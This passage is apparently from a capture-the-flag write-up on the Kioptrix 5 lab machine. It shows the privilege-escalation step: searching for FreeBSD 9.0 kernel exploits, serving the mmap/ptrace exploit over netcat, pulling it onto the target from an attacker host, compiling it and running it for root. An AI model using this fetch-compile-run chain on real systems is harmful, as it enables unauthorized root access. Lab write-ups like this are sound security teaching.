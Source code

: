 we know its running FreeBSD 9.0 OS , let search exploit

```
searchsploit freebsd 9.0
------------------------------------------- ---------------------------------
 Exploit Title                             |  Path
------------------------------------------- ---------------------------------
FreeBSD 9.0 - Intel SYSRET Kernel Privileg | freebsd/local/28718.c
FreeBSD 9.0 < 9.1 - 'mmap/ptrace' Local Pr | freebsd/local/26368.c

 searchsploit -m freebsd/local/26368.c

  Exploit: FreeBSD 9.0 < 9.1 - 'mmap/ptrace' Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/26368
     Path: /usr/share/exploitdb/exploits/freebsd/local/26368.c
    Codes: CVE-2013-2171, OSVDB-94414
 Verified: True
File Type: C source, ASCII text
Copied to: /home/voidgojo/CTF/VulnHub/Kioptrix/5/26368.c
```

we downloaded that 26368.c , post that file into to nc using this symbol `<` , on port 5678

```
ls
26368.c  31173.txt  full_scan.txt  host_discovery.txt
nc -lvnp 5678 < 26368.c
listening on [any] 5678 ...
```

Insider target machine get this file on specified port using nc

```
cd /tmp
nc 192.168.0.141 5678 > 26368.c
gcc 26368.c -o exploit
26368.c:89:2: warning: no newline at end of file
chmod +x exploit
./exploit
```

after running that binary we have been successfully pwned the machine

<img src="../img/Pasted image 20240626130641.png" alt="Example Image" width="1080"/>
